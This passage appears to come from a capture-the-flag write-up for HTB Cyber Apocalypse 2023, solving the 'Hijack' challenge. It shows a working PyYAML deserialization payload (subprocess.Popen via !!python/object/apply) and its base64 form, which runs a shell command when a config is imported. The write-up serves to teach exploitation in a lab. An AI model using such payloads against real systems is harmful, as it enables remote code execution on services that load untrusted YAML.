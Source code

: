 ``` HTB{A_SIMPLE_SUBSTITUTION_IS_WEAK} ```

<br>

--- 

<br>


# Misc

## Hijack
The security of the alien spacecrafts did not prove very robust, and you have gained access to an interface allowing you to upload a new configuration to their ship's Thermal Control System. Can you take advantage of the situation without raising any suspicion?


We get an IP and a port _178.128.42.134:31264_. Using netcat,  we get prompted a menu. Exporting a configuration we get the following output:

<p align="center">
  <img src="/images/writeups/CyberApocalypse2023/1_0_py.png" width="70%"/>
</p>

Decoding the payload form Base64 we get the following output, which is a YAML serialized payload:

```python
!!python/object:__main__.flag {IR_spectrometer_temp: '1', auto_calibration: '1',
  propulsion_temp: '8000', solar_array_temp: '8000', units: C}
```

We can also import configs and load them into the ship, so let's import a Popen object with the parameter _ls_ which is going to get executed when deserialized:

```python
# ISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuUG9wZW4KLSBscw
!!python/object/apply:subprocess.Popen
- ls
```

<p align="center">
  <img src="/images/writeups/CyberApocalypse2023/1_1_ls.png" width="70%"/>
</p>
